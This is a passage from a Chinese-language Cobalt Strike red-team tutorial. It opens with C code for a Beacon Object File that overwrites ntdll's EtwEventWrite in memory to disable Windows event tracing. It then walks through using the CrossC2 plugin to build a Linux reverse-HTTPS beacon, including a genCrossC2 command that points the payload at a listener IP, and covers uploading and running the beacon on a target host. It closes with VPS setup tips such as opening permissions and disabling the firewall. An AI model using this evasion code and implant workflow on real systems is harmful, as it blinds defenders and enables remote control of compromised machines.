	SIZE_T length = 1;
	char patch[] = { 0xc3 };
#elif defined(_M_IX86)
	SIZE_T length = 3;
	char patch[] = { 0xc2,0x14,0x00 };
#endif
	
	HMODULE hAmsi = LoadLibraryA("ntdll.dll");
	if (hAmsi == NULL)
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to load ntdll.dll");
		return;
	}

	FARPROC pEtwEventWrite = GetProcAddress(hAmsi,"EtwEventWrite");
	if (pEtwEventWrite == NULL)
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to get EtwEventWrite address");
		return;
	}
	
	DWORD oldProtect;
	// 修改EtwEventWrite函数的内存保护属性
	if (VirtualProtect(pEtwEventWrite, 6, PAGE_EXECUTE_READWRITE, &oldProtect))
	{	
		// 将新的函数字节码复制到AmsiScanBuffer函数的地址
		memcpy(pEtwEventWrite, patch, length);
		BeaconPrintf(CALLBACK_OUTPUT, "Etw Patch Success!");
	}
	else
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to change memory protection");
	}

}
```




## 参考链接

- https://www.secpulse.com/archives/198531.html

- https://www.anquanke.com/post/id/220456


# 十四、Cross2 Linux Shell

## 前言

CobaltStrike本身并不支持生成linux类型的payload，此处我们需要借用[CrossC2](https://github.com/gloxec/CrossC2)插件来生成，此插件目前仅支持HTTPS监听

我们可以在不同平台下使用CrossC2来生成payload




## 步骤演示

### 1.下载CrossC2

此处我以在windows平台生成payload为例，首先在CobaltStrike目录新建一个CrossC2目录，并将`.cobaltstrike.beacon_keys`和CrossC2插件放进去，再将`genCrossC2.Win.zip`的文件解压至此目录




### 2.修改插件并加载

修改`CrossC2.cna`的内容，将`$CC2_PATH`的值修改为CrossC2的根目录

```
$CC2_PATH = "E:\\HackerTools\\IntranetPenetration\\CobaltStrike\\CobaltStrike4.9\\CrossC2\\"; # <-------- fix
$CC2_BIN = "genCrossC2.exe";
```


在CobaltStrike客户端加载CrossC2插件

	


### 3.创建HTTPS监听

创建一个HTTPS类型的监听

	


点击右上角的CrossC2插件，创建一个反向HTTPS监听




Listener要选择之前创建的HTTPS监听；由于我teamserver启动时指定了profile文件,因此此处也需指定；CS版本虽然只有小于或等于4.8的版本可选择,但是实测4.9也是可以用的




### 4.生成payload

点击build后会在CobaltStrike根目录下生成一个`beacon.out`

	


除了在插件生成payload, 还可以在linux或windows使用命令行来生成, Linux的这里就不演示了，命令行格式为如下所示：

```
genCrossC2 <listener-ip/domain> <listener-port> <beacon_keys> <rebind_library;config.ini;c2profile.profile> <target_platform> <target_arch> <output_file>
```

如下例子所示:

```
genCrossC2.exe 192.168.47.188 443 .cobaltstrike.beacon_keys ";;henry.profile" Linux x64 beacon.out
```




### 5.执行payload

将生成的beacon.out上传至linux主机并赋予可执行权限, 随后执行

	


beacon执行后，CobaltStrike显示目标主机上线



​				

# vps搭建可能遇到的问题

## 1.文件上传

若要将本机的文件上传至云服务器，你需通过Xshell来实现

先在xshell连接云服务器，命令行中执行`rz`命令，即可实现文件上传

> 若没有`rz`命令,则需用到以下命令进行安装(二选一):
>
> - 适用于redhat linux:` yum install lrzsz`
> - 适用于centos或ununtu: `apt-get install lrzsz`


## 2.文件解压

将zip文件上传至服务器, 使用`unzip`命令解压压缩包

```
unzip xxx.zip
```

> 若没有此命令需先安装: apt-get install unzip


## 3.文件权限问题

进入Cobalt Strike的文件目录，你会发现不能执行`teamserver`文件，这是因为你没有给此目录赋予更高的权限,执行以下命令赋予最高权限

```
chmod -R 777 cs目录
```


## 4.安装java环境

配置Cobalt Strike服务需要java环境的支持, 执行如下命令安装java

```
sudo apt-get update
sudo apt-get install default-jdk
```


## 5.CS客户端出现timeout错误

如下图所示, 在登录CS客户端时出现`Connection timed out`错误警告

	


首先检查云服务器安全组配置，开放对应的CS服务器监听端口


	


关闭服务器防火墙，我的服务器系统是ubuntu，每个系统对应的命令是不同的。

```
sudo ufw disable
```


## 6.Cobalt Strike后台执行

若Xshell与云服务器断开了连接, 则Cobalt Strike服务也会相应断开, 但可以通过Screen命令为Cobalt Strike服务设置后台执行

安装Screen：`apt-get install screen`

screen命令的常用操作如下：

- `screen -S yourname`: 新建一个叫yourname的后台任务
- `screen -ls`: 列出当前所有的后台任务
- `screen -r yourname`: 切换至名为yourname的后台任务

若要结束名为yourname的后台任务, 先使用`screen -r yourname`切换至此任务, 然后执行`exit`命令
